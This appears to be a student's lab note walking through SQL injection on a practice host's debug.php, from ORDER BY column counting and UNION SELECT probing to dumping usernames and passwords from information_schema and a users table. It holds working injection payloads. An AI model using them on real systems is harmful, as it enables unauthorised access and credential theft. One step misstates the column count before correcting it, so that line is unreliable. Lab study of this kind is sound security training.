 9.4.5.9

# 9.4.5.9
## 9.4.5.9.1. Enumerate the structure of the database using SQL injection.

In this example, we will use the debug.php to demonstrate this. We input the following and see an SQL syntax error, which might signal the presence of SQLi vulnerability.
`http://192.168.214.10/debug.php?id='`
![fb752a781aef1452d9cc82e39d94b887.png](:/fd169ca295ff476b8609999d86873dd7)

### Column Number enumeration
Observe `http://192.168.214.10/debug.php?id=1 order by 1`
![d378d7911c4a01f61a88e09bea402a65.png](:/03474acfe0ba444b9c099769bfb87516)

Open Burpsuite and send the same order by 1 record to Repeater. Notice it is percent encoded. Check the response for 'Error'. We find no errors.
![e5e0eed1430ba3956968d27fc551e432.png](:/a64a2169e7ee41d2bc82b9e997e3f93c)

Change the GET request to order by 2. Again no errors.
![c5111ace93bafe0af10e145dc7c2bc6b.png](:/785bedfaf4814a28bff15390fd889d1e)

Change the GET request to order by 3. Again no errors.
![bb58676acfcfe555c016af66feedd05e.png](:/8d71dfb883ea4633b7d6a2f923d69c0c)

Change the GET request to order by 4. We find an error. This means that there are 4 columns in this query.
![69c447b330cb11e32a54c6e76653dc08.png](:/14f738feab7647f4a567727f185c5c71)

### Understand the layout of the output
We know there are 3 columns, and we observe the "1" does not render, but "2" renders in the username column, and "3" renders in the comment column. The comment column is suitable for our exploit because it has more space.
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, 3`
![658a42d13ac69162325da9d77cb067f9.png](:/7262050d94784f09bb8127c25f835642)

### Extracting data from the database
Get the version
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, @@version`
![246e1bf2cdc5d997fa7a930c65caf88b.png](:/b901302134b14777a0023d0efe459c77)

Get the current database user
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, user()`
![c979f2f58f7dfb5ee3cf65737dc26c12.png](:/7cd9212267c949b58d03c637655e19ed)



## 9.4.5.9.2. Understand how and why you can pull data from your injected commands and have it displayed on the screen.



## 9.4.5.9.3. Extract all users and associated passwords from the database.
Get the database tables and column structures. The 'usernames' table looks interesting.
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables`
![ffc5866d0b4851a3e022b2ec439c409e.png](:/540264a9cdc54171a6ef2342e2938891)

Get the column names from the users table
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'`
![2d207679a9f45767765f2c709e8147fd.png](:/7d23a12e4b5445978d5f53cd22701aee)

Display the usernames and passwords from the users table
`http://192.168.214.10/debug.php?id=1 union all select 1, username, password from users`
![e38944bb26a68efa8cbce56b79738961.png](:/bff16a2cc0de47d7b8a132d6f59cf7cb)

id: 561cf69d298649f5b580568237316b4e
parent_id: 6e45b056929e4bd7afaa305905abcb4e
created_time: 2020-10-02T21:27:26.920Z
updated_time: 2020-10-02T21:27:28.377Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:27:26.920Z
user_updated_time: 2020-10-02T21:27:28.377Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1